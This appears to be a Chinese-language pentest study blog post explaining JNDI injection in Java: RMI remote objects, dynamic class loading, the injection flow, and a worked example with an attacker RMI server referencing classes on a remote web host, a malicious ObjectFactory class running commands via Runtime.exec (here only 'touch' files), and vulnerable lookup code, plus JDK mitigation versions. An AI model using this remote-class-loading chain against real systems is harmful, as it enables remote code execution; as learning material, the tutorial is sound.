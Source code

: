 ```yaml
---
draft: false
isCJKLanguage: true
date: 2022-03-30
lastmod: 2022-03-30
title: "JNDI 注入"
description: 我的个人博客，主要用于记录自己的一些渗透测试、编程等学习笔记之类的东西。
categories: 
  - Pentest
tags:
  - jdni
  - 反序列化
---
```



### 0x00 JDNI
JNDI(Java Naming and Directory Interface) 是 Java 提供的 Java 命名和目录接口

JNDI 可访问的现有的目录及服务有：JDBC、LDAP、RMI、DNS、NIS、CORBA

JNDI 可对 LDAP、RMI 等服务进行封装，从而提供统一的客户端 API

![80](/img/post/Xnip2022-05-30_10-13-30.jpg)

### 0x01 调用 RMI 远程对象
RMI Server 端监听两个端口，一个是 rmi 端口1099，一个是随机的通信端口；

Client 端调用 Server 远程对象需要先获取 Stub；

Client 可以通过监听 1099 的 rmi 上的 RMIRegistry 这个远程对象来获取 Stub；

之后 Client 通过 Stub 连接到 Server 端监听的通信端口并提交参数；

远程 Server 端上执行具体的方法，并返回结果给 Stub，Stub 返回执行结果给 Client 端；

从 Client 看来就好像是 Stub 在本地执行了这个方法一样；

![70](/img/post/Xnip2022-05-30_10-15-16.jpg)

RMI 服务端启动远程对象 Registry
```java
IHello rhello = new HelloImpl();
LocateRegistry.createRegistry(1099);
Naming.bind("rmi://0.0.0.0:1099/hello", rhello);
```

客户端获取 RMI 服务端的远程对象 rhello
```java
Registry registry = LocateRegistry.getRegistry("192.168.1.110", 1099);
IHello rhello = (IHello) registry.lookup("hello");
rhello.sayHello("test");
```

### 0x02 动态加载类
RMI 核心特点之一就是动态类加载，如果当前 JVM 中没有某个类的定义，它可以通过 URL 从远程 web 服务去下载这个类的 class 文件

客户端同样需要有运行时动态加载额外类的能力，客户端使用了与 RMI 注册表相同的机制，RMI 服务端将 URL 传递给客户端，客户端通过 HTTP 请求下载这些类

### 0x03 JNDI 注入
JNDI 注入其实是把目标主机，即使用 JNDI 服务的主机当作了 Client，它请求了恶意的 RMI

JNDI 接口在初始化时，可以将 RMI URI 作为参数传入，而 JNDI 注入就出现在客户端的 lookup() 函数中，如果<f>lookup() 的参数可控</f>就可能被攻击。

```java
public static void main(String[] args) {
    try {
        String uri = "rmi://192.168.1.110:1099/rhello";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

在 JNDI 服务中，RMI 服务端除了直接绑定远程对象之外，还可以通过 References 类来绑定一个外部的远程对象。绑定了 Reference 之后，服务端会先通过 Referenceable.getReference() 获取绑定对象的引用，并且在目录中保存。当客户端(JNDI 服务)在 lookup() 查找这个远程对象时就会获取相应的 object factory，最终通过 factory 类将 reference 转换为具体的对象实例。

JNDI 注入流程：

* 目标代码中调用了 InitialContext.lookup(URI)，且URI为用户可控；
* 攻击者控制 URI 参数为 RMI 服务地址，如：rmi://hacker_rmi_server/name；
* 攻击者 RMI 服务器绑定一个 web 服务中的 Reference 对象，Reference 对象中指定某个恶意的 Factory 类，而 Factory 类文件的构造方法、静态代码块、getObjectInstance() 方法等处可写入恶意代码；
* 客户端在进行 lookup() 操作时，会动态加载并实例化恶意 Factory 类，并调用 factory.getObjectInstance() 获取外部远程对象实例，从而 RCE；

### 0x04 JDNI 注入例子
攻击者代码

```java
public static void main(String[] args) throws Exception {
    try {
        Registry registry = LocateRegistry.createRegistry(1099);
        
        // http://123.123.123.123:8081/ 为放字节码文件的 web 服务器
        Reference aa = new Reference("Calc", "Calc", "http://123.123.123.123:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        
        registry.bind("hello", refObjWrapper);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

恶意对象，保存为 java 文件，用 javac 编译成 .class 字节码文件，上传到 web 服务器

```java
import java.lang.Runtime;
import java.lang.Process;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;
​
public class Calc implements ObjectFactory {
    {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/Calc2"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
​
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/Calc1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
​
    public Calc() {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/Calc3"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
​
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/Calc4"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
        return null;
    }
}
```

被攻击者代码

```java
public static void main(String[] args) {
    try {
        String uri = "rmi://123.123.123.123:1099/hello";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

### 0x05 jdk 版本问题
在 jdk8u121 7u131 6u141 版本开始默认 com.sun.jndi.rmi.object.trustURLCodebase 设置为 false，rmi 加载远程的字节码不会执行成功

在 jdk11.0.1 8u191 7u201 6u211 版本开始默认 com.sun.jndi.ldap.object.trustURLCodebase 设置为 false，ldap 加载远程的字节码不会执行成功。

在 jdk8u191 之后 RMI 和 LDAP 默认都不能从远程加载类，但还是可以在 RMI 和 LDAP 中获取对象


<br>
#### Reference(侵删)：
* [https://mp.weixin.qq.com/s/cyeEAv31GO_hZCTXVRBkxw](https://mp.weixin.qq.com/s/cyeEAv31GO_hZCTXVRBkxw?_blank)
* [https://mp.weixin.qq.com/s/GJ9Dio_7A8RCeipilIHXEg](https://mp.weixin.qq.com/s/GJ9Dio_7A8RCeipilIHXEg?_blank)
